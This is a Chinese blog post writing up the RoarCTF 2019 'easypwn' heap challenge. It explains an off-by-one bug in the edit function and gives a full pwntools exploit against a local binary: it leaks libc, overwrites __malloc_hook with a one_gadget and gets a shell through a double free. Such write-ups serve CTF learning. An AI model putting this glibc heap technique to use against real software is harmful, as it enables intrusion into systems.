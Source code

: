 ```yaml
---
title: 19RoarCTF记录
author: nepire
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 12:31:01
tags:
keywords:
description:
photos: /images/cover/8.png
---
```

比赛时正好遇上作业一大堆，粗略的看了一题就去赶作业了，赛后还是来重新看一遍题目




# easypwn
```
    Arch:     amd64-64-little                                                                                          
    RELRO:    Full RELRO                                                                                               
    Stack:    Canary found                                                                                             
    NX:       NX enabled                                                                                               
    PIE:      PIE enabled
```
防护全开
反编译看一下

![图片](jj7Vi0RS28Mu5Vdp.png)

标准菜单框架

然后又是愉快的逆结构体时间

这里就省略分析过程

```
struct note
{
  int inuse;
  int size;
  char *content;
}
```
![图片](3lJTRVXx9hkjDAhf.png)

![图片](ohsQTbMsvZEwjrbO.png)

我们可以看到create的功能只初始化了新chunk，并未往content写东西

然后简单审计过后就能发现有个很僵硬的漏洞

![图片](mnrLbOp5t5EMBjwY.png)

在往chunk_content内写东西时的size是cmp_min的返回值，而问题就出在cmp_min里

![图片](BDqW1RPx5HIeSvgl.png)这里僵硬在于这个额外多出的if，本来猜测可能是想输入的size是带'\n'的但发现这也不对就hen尬

总结下现在得到的可利用点

1.最大可创建size=0x100的chunk

2.edit存在offbyone漏洞

3.菜单选择用的scanf

那么先尝试利用off by one泄露出libc

![图片](3oLNBqRr7Scnt8ZZ.png)


这里有个细节是它没有用malloc创建堆而是calloc，但没必要去纠结，因为触发malloc_hook的不是这里的malloc

![图片](gzXbIS07Uy4a3463.png)


接着就是很直接的，uaf改fd到malloc_hook后把malloc_hook改成one_gadget再用doublefree报错里的malloc触发getshell

```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./easy_pwn')
elf = ELF('./easy_pwn')
libc = elf.libc
def choice(idx):
	n.recvuntil('choice: ')
	n.sendline(str(idx))


def new(size):
	choice(1)
	n.recvuntil('size: ')
	n.sendline(str(size))


def write(idx,size,content):
	choice(2)
	n.recvuntil('index: ')
	n.sendline(str(idx))
	n.recvuntil('size: ')
	n.sendline(str(size))
	n.recvuntil('content:')
	n.send(content)


def free(idx):
	choice(3)
	n.recvuntil('index: ')
	n.sendline(str(idx))


def show(idx):
	choice(4)
	n.recvuntil('index: ')
	n.sendline(str(idx))


new(0x18)#0
new(0x18)#1
new(0x68)#2
new(0x10)#3
write(0,0x18+10,'a'*0x18+'\x91')
#gdb.attach(n)
free(1)
new(0x18)#1|2
show(2)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c4b78
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase +0xf02a4 
#gdb.attach(n)
free(1)
new(0x68)
free(2)
write(1,0x8,p64(malloc_hook-0x18+5))
new(0x68)
new(0x68)
write(4,0x10+3,'aaa'+p64(one_gadget)*2)
free(2)
free(1)
n.interactive()
```
continue……

